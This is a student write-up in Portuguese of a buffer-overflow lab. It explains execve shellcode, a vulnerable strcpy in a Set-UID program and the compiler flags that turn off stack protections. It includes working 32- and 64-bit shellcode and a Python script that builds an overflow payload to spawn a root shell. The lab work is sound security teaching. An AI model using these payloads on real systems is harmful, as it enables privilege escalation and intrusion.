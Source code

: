 ## TAREFA 1
O principal objetivo de um ataque de buffer-overflow é injetar código malicioso no programa atacado, de forma a fazer uso dos privilégios deste para o executar. Uma vez que Shellcode é usado na maioria de ataques de injeção de código, esta primeira tarefa tem como objetivo uma familiarização inicial a como este funciona.

Shellcode, é basicamente um pedaço de código que executa uma shell, o que observamos no código c partilhado no guião:

```c
#include <stdio.h>
int main() {
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Este simples código, usa o comando "/bin/sh", e os argumentos guardados em "name", na chamada ao comando execve(), para executar uma shell. No entanto, não é possível compilar este código e usar o binário gerado como o nosso shellcode. O Lab apresenta, portanto, o código binário gerado apartir de código assembly, o qual é brevemente explicado no guião, para uma arquitetura de 32 e de 64 bits. Este código encontra-se no ficheiro "call_shellcode.c":

```c
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
```

Quando o ficheiro é compilado com a flag -m32, o código binário de 32 bits (bloco else), é guardado em "shellcode", caso contrário, é guardado o de 64 bits (primeiro bloco).

Todas as instruções de compilação já estão especificadas no Makefile providenciado. Compilamos o código com o comando "make", que gerou 2 ficheiros de output (um com o código de 64 bits e outro com o de 32) e, executando ambos, verificamos que  é aberta uma shell (neste caso zsh, por causa das proteções) no terminal, no mesmo diretório onde é executado o programa.



## TAREFA 2
A segunda tarefa consistia em perceber como funciona o programa vulnerável deste lab, que se encontra no ficheiro "stack.c". Para isso começamos por analisar o ficheiro.

A vulnerabilidade está no facto da função "strcpy()", não verificar os limites do buffer para o qual estamos a tentar copiar. O programa lê para um array de caracteres "str", com um tamanho máximo de 517 bytes, o conteúdo (também 517 bytes, se tudo correr bem) de um ficheiro "badfile".

```c
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
```

De seguida é chamada a função "bof()", com o array "str" como argumento.

```c
bof(str);
```

Nesta função, "strcpy()" irá copiar os 517 bytes do array "str" para um buffer de tamanho "BUF_SIZE", definido como apenas 100 bytes, e por isso um buffer-overflow irá ocorrer.

```c
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
//...
char buffer[BUF_SIZE];

strcpy(buffer, str);	
```

Uma vez que o programa é "SET-UID root-owned", explorando esta vulnerabilidade existe a possibilidade do utilizador conseguir acesso a uma root shell (se o conteúdo do ficheiro "badfile" visar a isso, é claro).

Em termos de compilação é de destacar alguns aspetos:
 - As opcões "-fno-stack-protector" e "-z execstack" devem ser usadas de forma a desativar a "StackGuard" e as proteções não executáveis da stack.
 
 - De forma a tornar o programa em um programa "Set-UID root-owned", primeiramente mudamos a ownership do programa para root, usando o comando "sudo chown root stack", e depois mudamos a permissão para 4755, deforma a habilitar o bit de "Set-UID". Esta deve ser a ordem utilizada, uma vez que alterar a ownership para root, desativaria o bit de "Set-UID".
Todos estes comandos já vêm incluídos no Makefile providenciado, pelo que estamos prontos a continuar com as restantes tarefas, e podemos compilar o código com "make", no momento apropriado.



## TAREFA 3

Nesta tarefa, o objetivo é explorar uma vulnerabilidade de buffer overflow em um programa de 32 bits chamado "stack-L1-dbg".

Primeiramente, tivemos que utilizar um debbuger(GDB), para analisar o programa alvo e descobrir a distância entre o início do buffer e o local onde o endereço de retorno é armazenado.

Terminal 1 | Terminal 2
:---------:|:---------:
![Alt text](image-1.png)| ![Alt text](image-2.png)

De seguida, tivemos de alterar as variaveis no script python.


-Alteramos a variavel **offset** para 112, pois essa é a distância entre o inicio do buffer e o endereço de retorno.

-Alteramos tambem o valor **ret** para o programa saltar para o endereço que queremos.

-Alteramos o valor **start** para coincidir com o inicio do shellcode no buffer com a posição do ret.
    


**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcc0c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

Para finalizar corremos o script python e depois corremos o programa.Com isto conseguimos executar o buffer overflow e executar o shellcode.
![](url)










## TAREFA 4




![Alt text](image-3.png)

![Alt text](image-4.png)
